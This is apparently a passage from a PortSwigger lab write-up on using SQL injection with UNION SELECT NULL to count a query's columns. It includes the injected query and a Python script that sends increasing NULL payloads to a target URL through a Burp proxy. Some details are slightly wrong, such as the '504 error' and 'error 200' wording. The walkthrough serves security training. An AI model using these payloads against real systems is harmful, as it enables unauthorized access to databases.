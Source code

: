```python
```
For this script to work we need the session cookie and the csrf token that we get by intercepting the post with burpsuite.

## Lab 3 - SQL injection UNION attack, determining the number of columns returned by the query

In this lab we have to find out the number of columns that has the table of objects displayed on the web, in this case is filtering by category, but we will use UNION and NULL VALUES to determine how many columns exist, for that we will use as an example `UNION SELECT NULL, NULL --`, which will add to the query null fields for each column found.

The query will look something like this

```sql
SELECT * FROM PRODUCTS WHERE category='Gifts'UNION SELECT NULL, NULL, NULL--
```
If the response returns a 504 error, it means that there is a syntax error, that happens because there are more columns than null fields, then you will have to add more null fields until they are equal.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli6.jpg)

As you can see the objective is to return an error 200, this way we know that the number of columns in the table is equal to the number of null fields we have added.

### Lab 3 Python Script

With this script we will be automating the request to achieve sql injection, it is based on adding null values until it returns the response code 200, which means that the number of null values is equal to the number of columns in the table.

```python

import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
def exploit_sqli(url, payload):
    uri="filter?category=Gifts"
    for i in range (1,10):
        print("The url for request is: "+url+uri+payload+"--")
        r=requests.get(url+uri+payload+"--", verify=False, proxies=proxies)
        if r.status_code==200:
            return i
        payload+=",+NULL"
    return False

if __name__=="__main__":
    try:
        url = sys.argv[1].strip()
        payload = "'UNION+SELECT+NULL"
    except IndexError:
        print('Usage: %s <url> ' % sys.argv[0])
        print('Example: %s www.example-com ' % sys.argv[0])
        sys.exit(-1)
    columns=exploit_sqli(url,payload)
```